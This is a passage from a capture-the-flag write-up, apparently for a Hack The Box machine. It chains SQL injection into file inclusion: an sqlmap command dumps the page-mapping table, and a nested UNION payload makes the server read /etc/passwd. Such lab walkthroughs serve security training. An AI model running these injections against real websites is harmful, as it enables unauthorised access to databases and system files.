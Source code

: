 

It worked, returning the about page:

![](/img/1561207648919.png)

#### Controlling tpl --\> inc

Now that I can put whatever I want into tpl, I'll inject again to
control what is included in the page. From the source, I see the SQL
query will be:



    SELECT path from filepath where name = $tpl



Again, I can use the injection to see what's in that table:



    root@kali# sqlmap -u https://www.nestedflanders.htb/index.php?id=587 --level=5 --risk=2 --batch -D neddy -T filepath --dump
    ...[snip]...
    +---------+--------------------------------------+
    | name    | path                                 |
    +---------+--------------------------------------+
    | about   | 47c1ba4f7b1edf28ea0e2bb250717093.php |
    | contact | 0f710bba8d16303a415266af8bb52fcb.php |
    | main    | 787c75233b93aa5e45c3f85d130bfbe7.php |
    +---------+--------------------------------------+



The table maps the tpl string to a page to include.

So fully control that, I want the query to look like:



    SELECT path from filepath where name = 0xdf UNION select /etc/passwd



Since 0xdf does not exist, the only return will be the path I passed,
`/etc/passwd`.

Since I need this to pass through the previous function, I'll start with
that injection, and replace `about` with the second injection:



    587' and 1=2 UNION select '0xdf\' union select \'/etc/passwd\'-- -'-- -



That worked, I got `/etc/passwd`:

![](/img/1561208177648.png)

### Shell
